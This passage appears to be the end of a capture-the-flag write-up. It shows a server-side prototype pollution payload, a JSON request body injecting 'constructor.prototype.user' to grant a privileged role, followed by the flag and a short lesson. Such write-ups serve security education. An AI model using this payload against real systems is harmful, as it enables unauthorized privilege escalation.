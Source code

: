 ```http
{"sysparm_quantity":"1","variables":{"formatter":"true","do_you_want_to_be_a_flag_holder":"Yes","question_ctf_player_pickup_line":"anything","{\"time\":\"5/13/2024, 12:56:31 PM\",\"submitter\":\"884a802a830e82103f6120d0deaad322\",\"submitterName\":\"\",\"constructor\":{\"prototype\":{\"user\":\"<YOUR_sys_id>\"}}}","question_color_palette_of_meal":"HSL(182, 65%, 34%) | HSL(45, 92%, 71%) | HSL(278, 45%, 63%) | HSL(94, 22%, 51%)","question_describe_food_taste":"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA","sdctf_share":"No","question_toilet_flush":"<YOUR_question_toilet_flush>","question_favorite_ice_shape":"ic_klein_bottle"},"sysparm_item_guid":"7f59b287c34ac210e706d54d05013193","get_portal_messages":"true","sysparm_no_validation":"true","engagement_channel":"sp","referrer":"popular_items"}
```

> Remember replace the `<YOUR_COOKIES>`, `<YOUR_Usertoken>`, `<YOUR_sys_id>`, and `<YOUR_question_toilet_flush>` with yours value.

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/San-Diego-CTF-2024/images/Pasted%20image%2020240513220630.png)

After sending the POST request, you should have `flag_holder` role. **Then, go to `/flag` and you should get the flag**!

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/San-Diego-CTF-2024/images/Pasted%20image%2020240513220823.png)

- **Flag: `sdctf{1_GUE55_1_5houLDA_STuCk_witH_TH3_n0_Code_c12259}`**

## Conclusion

What we've learned:

1. Server-Side Prototype Pollution